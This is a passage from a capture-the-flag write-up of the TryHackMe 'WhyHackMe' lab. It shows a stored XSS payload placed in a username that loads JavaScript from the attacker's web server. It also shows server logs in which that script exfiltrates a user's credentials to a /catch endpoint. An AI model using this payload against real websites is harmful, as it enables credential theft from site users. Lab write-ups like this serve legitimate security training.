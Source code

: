 In this case i choosed port 80 for the web server. 
Save the file as **script.js**, and make sure to add the VPN IP address of your attacking machine.

Now we host a simple [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) web server :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/WhyHackMe]
└─$ python3 -m http.server 80                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We register as a new user with the following username : ``

```bash
<script src=http://10.8.162.183:80/script.js></script>
```

Now login and write a comment, then check back on your Python web server :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/WhyHackMe]
└─$ python3 -m http.server 80                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.8.162.183 - - [31/Jul/2025 12:25:28] "GET /script.js HTTP/1.1" 200 -
127.0.0.1 - - [31/Jul/2025 12:25:28] code 404, message File not found
127.0.0.1 - - [31/Jul/2025 12:25:28] "GET /dir/pass.txt HTTP/1.1" 404 -
10.10.100.207 - - [31/Jul/2025 12:26:02] "GET /script.js HTTP/1.1" 200 -
10.10.100.207 - - [31/Jul/2025 12:26:02] code 404, message File not found
10.10.100.207 - - [31/Jul/2025 12:26:02] "GET /catch?data=jack%3AWhyIsMyPasswordSoStrongIDK%0A HTTP/1.1" 404 -

```

You can see a user+password combination. The username is **jack**. Let's URL decode the password :
![Pasted image 20250731122804.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250731122804.png)
WhyIsMyPasswordSoStrongIDK
## Foothold SSH (22)
